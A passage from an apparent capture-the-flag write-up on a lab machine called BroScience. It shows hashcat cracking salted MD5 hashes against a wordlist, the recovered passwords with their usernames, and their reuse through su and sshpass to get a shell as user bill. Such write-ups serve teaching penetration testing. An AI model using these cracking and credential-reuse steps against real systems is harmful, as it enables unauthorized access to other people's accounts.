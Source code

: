 Mode 20, `md5($salt.$pass)` looks like this case. It cracks three of them:

```

$ hashcat hashes --user -m 20 /usr/share/wordlists/rockyou.txt
hashcat (v6.2.6) starting
...[snip]...
13edad4932da9dbb57d9cd15b66ed104:NaCl:iluvhorsesandgym    
5d15340bded5b9395d5d14b9c21bc82b:NaCl:Aaronthehottest     
bd3dad50e2d578ecba87d5fa15ca5f85:NaCl:2applesplus2apples 
...[snip]...

```

Running with `--show` instead of a wordlist will show the results with the usernames:

```

$ hashcat hashes --user -m 20 --show
bill:13edad4932da9dbb57d9cd15b66ed104:NaCl:iluvhorsesandgym
michael:bd3dad50e2d578ecba87d5fa15ca5f85:NaCl:2applesplus2apples
dmytro:5d15340bded5b9395d5d14b9c21bc82b:NaCl:Aaronthehottest

```

### su / SSH

bill is a user on the box, and the list above has a password for bill. Running `su` with that password works to get a shell as bill:

```

www-data@broscience:/var/www/html$ su - bill       
Password: 
bill@broscience:~$

```

And gives access to `user.txt`:

```

bill@broscience:~$ cat user.txt
511395d5************************

```

The password also works for SSH:

```

oxdf@hacky$ sshpass -p 'iluvhorsesandgym' ssh bill@broscience.htb
Linux broscience 5.10.0-20-amd64 #1 SMP Debian 5.10.158-2 (2022-12-13) x86_64
...[snip]...
bill@broscience:~$

```
